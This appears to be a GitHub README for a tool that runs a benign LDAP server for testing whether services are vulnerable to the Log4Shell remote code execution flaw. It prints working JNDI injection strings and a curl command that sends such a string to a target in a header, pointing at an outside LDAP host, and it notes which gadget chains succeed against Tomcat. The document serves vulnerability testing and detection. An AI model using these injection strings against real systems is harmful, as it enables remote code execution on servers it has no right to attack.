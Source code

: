 # Description
A simple java LDAP host that will respond to a JNDI request with a benign jdk11+ gadget chain payload. Useful for generating log4shell (Log4j RCE CVE-2021-44228) exploit logs, and testing if your services are vulnerable to a set of well-known follow-up gadget chains that are needed to exploit this vulnerability on newer jdk versions.

## Payloads
The pre-packaged exploit payloads simply run `touch /<payload name>.txt`, e.g. `touch /CommonsCollections6.txt` on the target. This is meant to be an innocuous indicator that a system is vulnerable to a post-exploit gadget chain. They were generated with [ysoserial](https://github.com/frohoff/ysoserial).

# Usage

## Build
`docker-compose build`

## Run
`docker-compose up`

## Do
1. Optional: Pick a payload from the list of gadget chains available in [ysoserial](https://github.com/frohoff/ysoserial).
   * Based on my testing, CommonsCollections5 and CommonsCollections6 work against recent verions of tomcat 8.
   * If you don't specify a payload log4dap will send an empty reply. But you will know the target attempted to load a class, which tells you you're vulnerable to malicious requests.
2. Build your malicious request string with the host IP of the machine running this container and the name of the ysoserial payload you wish to use, if any.
   * `${jndi:ldap://<host.ip.address>:1337/[gadget chain payload>]`
   * `${jndi:ldap://192.168.1.5:1337/CommonsCollections6}`
3. Use any of the many mechanisms at your disposal to attempt to trigger the log4shell exploit with that string.
4. Check your target systems logs for evidence of the exploit attempt. @Neo23x0's [log4shell-detector](https://github.com/Neo23x0/log4shell-detector) is good for this.

#### Example
`curl  -H '<some header you're testing> : ${jndi:ldap://192.168.1.5:1337/CommonsCollections6}' http://target.hostname/some/endpoint`

## Screenshots

![ldap response](/screenshots/ldap_request.png)

![exploited](/screenshots/exploited.png)

## Credits

This is based almost entirely on the work shared [here](https://www.cnblogs.com/yyhuni/p/15088134.html) ([english version](https://www.cnblogs.com/yyhuni/p/15088134.html)), as well as [ysoserial](https://github.com/frohoff/ysoserial).
